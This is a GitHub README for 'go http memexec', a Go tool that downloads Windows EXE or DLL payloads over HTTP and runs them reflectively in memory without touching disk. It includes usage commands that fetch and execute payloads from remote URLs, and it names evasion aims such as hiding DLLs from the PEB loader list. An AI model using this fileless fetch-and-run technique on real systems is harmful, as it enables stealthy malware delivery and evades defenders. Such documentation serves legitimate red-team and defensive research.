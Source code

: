 # go http memexec

A lightweight, memory-safe Windows PE file execution tool that downloads and executes payloads without ever touching the disk. Supports both executables and DLLs.

## Features

- **Zero Disk I/O**: Downloads executables directly to memory and never writes them to disk
- **Pure Go Implementation**: 100% Go code with no CGO dependencies (thank you binject/debug you guys are truly the goats)
- **Memory-Safe Execution**: Implements proper memory protection and relocation
- **TLS Callback Support**: Properly handles TLS callbacks in PE files
- **DLL Support**: Can load DLLs in memory and call exported functions
- **Simple API**: Single command to download and execute payloads

[find binject debug here](https://github.com/Binject/debug)
## How It Works

go http memexec uses a sophisticated reflective PE loading technique to run executables in memory:

1. Downloads a PE file directly to memory using golang's net/http
2. Parses the PE file structure using the Binject/debug/pe package
3. Maps the PE file into memory with proper section permissions
4. Resolves imports and fixes relocations
5. Handles TLS callbacks properly
6. For EXEs: Executes the payload by jumping to its entry point
7. For DLLs: Calls DllMain with DLL_PROCESS_ATTACH and lets you call exported functions

## Usage

```bash
# Basic usage with default URL (EXE mode)
./go-http-memexec

# Specify a custom download URL (EXE mode)
./go-http-memexec https://example.com/payload.exe

# Load a DLL into memory
./go-http-memexec -dll https://example.com/payload.dll

# Load a DLL and call an exported function by name
./go-http-memexec -dll -proc=RunPayload https://example.com/payload.dll

# Load a DLL and call an exported function by ordinal
./go-http-memexec -dll -ordinal=5 https://example.com/payload.dll
```

## Use Cases

- Security testing and research
- Memory-resident application deployment
- Advanced Windows process manipulation research
- Fileless payload execution
- Loading DLLs without registering them in the PEB loader list

## Technical Details

The project is built entirely in Go:

- Uses golang's net/http to stream downloads directly to memory
- Implements PE parsing using the Binject/debug/pe package
- Properly handles relocations, import resolution, and TLS callbacks
- Sets appropriate memory protections for PE sections
- For EXEs: Executes code directly from memory with no disk I/O
- For DLLs: Maps the DLL into memory, calls DllMain, and allows calling exported functions

## Build Instructions

```bash
# Get dependencies
go mod tidy

# Build the executable
go build -ldflags="-s -w" -trimpath -o go-http-memexec.exe
```

## DLL Loading API

The package provides the following functions for DLL handling:

```go
// Load a DLL into memory
handle, err := runpe.LoadDLLInMemory(dllBytes)

// Get address of an exported function by name
procAddr, err := runpe.GetProcAddressFromMemoryDLL(handle, "ExportedFunctionName")

// Get address of an exported function by ordinal
procAddr, err := runpe.GetProcAddressByOrdinalFromMemoryDLL(handle, 5) // Ordinal 5

// Call the function
syscall.Syscall(procAddr, numArgs, arg1, arg2, arg3)

// Free the DLL when done
err = runpe.FreeDLLFromMemory(handle, 0)
```

## Security Considerations

This tool is designed for legitimate security research, testing, and educational purposes only. The ability to execute code directly from memory without touching disk is a powerful capability that should be used responsibly.

## Requirements

- Windows operating system
- Go 1.20 or later

## Notes
- This project has only been tested on Windows 10
- This is a rewrite of the original C++-based implementation, now in 100% pure Go
- The DLL loading functionality allows more flexible in-memory execution without process hollowing

## License

[MIT License](LICENSE)

## Disclaimer

This project is provided for educational and research purposes only. Users are responsible for ensuring compliance with all applicable laws and regulations.